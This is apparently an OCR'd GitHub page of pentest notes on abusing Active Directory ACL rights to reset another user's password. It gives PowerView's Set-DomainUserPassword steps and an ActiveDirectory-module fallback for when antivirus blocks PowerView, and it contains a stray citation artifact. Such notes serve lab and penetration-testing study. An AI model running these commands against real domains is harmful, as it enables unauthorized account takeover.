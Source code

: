 # Change a User's Password Using ACL Permissions

1. **Authenticate as the Controlling User User I have**  
   - **Create a Secure String** for the password of the user with ACL permissions (e.g., `ali`):  
     ```powershell
     $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
     ```  
   - **Create a PSCredential Object** to impersonate the controlling user:  
     ```powershell
     $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
     ```  
     Replace `DOMAIN\USERNAME` (e.g., `corp.com\ali`).

2. **Define the New Password for the Target User**  
   - **Create a Secure String** for the new password (e.g., `Pwn3d_by_ACLs!`):  
     ```powershell
     $NewPassword = ConvertTo-SecureString '<NEW_PASSWORD>' -AsPlainText -Force
     ```  
---

3. **Reset the Target User's Password**  
   - **Import Required Modules** (e.g., PowerView):  
     ```powershell
     Import-Module .\PowerView.ps1
     ```  
   - **Execute the Password Change**:  
     ```powershell
     Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $NewPassword -Credential $Cred -Verbose
     ```  
     Replace `<TARGET_USER>` (e.g., `ahmed`).  
---
Another way to **Reset the Target User's Password** if powerview.ps1 cannot be executed (AV)
Set-ADAccountPassword (ActiveDirectory module)
# Example: Reset a user password to “p@ssw0rd” (Microsoft docs example)&#8203;:contentReference[oaicite:5]{index=5}
``` powershell
Set-ADAccountPassword -Identity 'CN=Elisa Daugherty,OU=Accounts,DC=Fabrikam,DC=com' `
    -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "p@ssw0rd" -Force)
```
